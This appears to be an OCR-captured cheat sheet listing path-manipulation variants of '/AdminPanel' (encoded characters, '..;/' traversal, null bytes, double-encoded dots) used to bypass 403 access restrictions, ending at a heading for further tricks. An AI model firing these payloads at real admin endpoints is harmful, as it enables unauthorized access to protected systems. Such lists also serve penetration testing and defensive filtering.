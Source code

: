 `/AdminPanel%20`

`/AdminPanel%09`

`/AdminPAnel/..;/`

`/AdminPanel..;/`

`/AdminPanel;/../200-OK`

`/AdminPanel//../`

`/AdminPanel?`

`/AdminPanel??`

`/AdminPanel&`

`/AdminPanel#`

`/AdminPanel%`

`/AdminPanel%20`

`/AdminPanel%09`

`/AdminPanel../`

`/AdminPanel/../`

`/AdminPanel/..;/`

`/AdminPanel..%2f`

`/AdminPanel\..\.\`

`/AdminPanel.././`

`/AdminPanel/*..%00/`

`/AdminPanel..%0d/`

`/AdminPanel..%5c`

`/AdminPanel..\`

`/AdminPanel;`

`/AdminPanel..%ff`

`/AdminPanel%2e%2e%2f`

`/AdminPanel.%2e`

`/AdminPanel%3f`

`/AdminPanel%26`

`/AdminPanel%23`

`/AdminPanel//./axx``

`/AdminPanel%00axx``

### Add After + Before The Path Tricks
